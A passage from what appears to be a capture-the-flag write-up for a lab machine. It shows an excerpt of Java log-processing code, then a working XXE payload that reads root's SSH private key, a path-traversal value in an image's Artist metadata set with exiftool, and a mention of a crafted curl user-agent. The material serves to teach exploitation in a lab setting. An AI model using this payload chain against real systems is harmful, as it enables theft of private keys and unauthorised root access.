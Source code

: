 ```java
                }
            }
        }
        BufferedWriter writer = new BufferedWriter(new FileWriter(fd));
        xmlOutput.output(doc, writer);
    }
    public static void main(String[] args) throws JDOMException, IOException, JpegProcessingException {
        File log_fd = new File("/opt/panda_search/redpanda.log");
        Scanner log_reader = new Scanner(log_fd);
        while(log_reader.hasNextLine())
        {
            String line = log_reader.nextLine();
            if(!isImage(line))
            {
                continue;
            }
            Map parsed_data = parseLog(line);
            System.out.println(parsed_data.get("uri"));
            String artist = getArtist(parsed_data.get("uri").toString());
            System.out.println("Artist: " + artist);
            String xmlPath = "/credits/" + artist + "_creds.xml";
            addViewTo(xmlPath, parsed_data.get("uri").toString());
        }

    }
}
```

Create an xml file that looks like the following. This is an xxe attack that loads the content of roots ssh key into our xml file. 

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY file SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/cat.jpg</uri>
    <ssh>&file;</ssh>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```
We then find a random image on the internet, add the metadata field `Artist` via exiftool:
```console
┌──(bitis㉿workstation)-[~/Downloads]
└─$ exiftool -Artist="../home/woodenk/tmp" cat.jpeg 
    1 image files updated
```

We can then curl the site with a custom user-agent which will point towards this image. 
